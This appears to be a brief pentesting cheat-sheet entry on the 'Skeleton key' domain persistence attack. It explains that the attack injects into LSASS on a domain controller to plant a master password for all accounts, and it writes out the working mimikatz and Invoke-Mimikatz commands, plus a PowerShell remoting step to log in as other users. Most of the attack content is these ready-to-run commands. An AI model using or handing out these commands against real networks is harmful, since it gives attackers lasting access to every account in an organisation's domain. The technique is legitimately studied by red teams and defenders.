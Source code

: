# Domain Persistance - Skeleton key

A Skeleton key is like a malware that is injected into LSASS process of Domain controller (DC), for this to achieve we need to be a domain admin in order to perfrom this , doing this will create a master password for all accounts in a domain ,existing passwords for those account will still work, this attack is done through `mimikatz`. The master password will not change until DC is rebooted 

## mimikatz.exe

```
privilege::debug
misc::skeleton
```


## Mimikatz powershell
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -Computer computername.domain
```

Then we can just switch to other user

```
Enter-PSSession -ComputerName computername -Credential
```

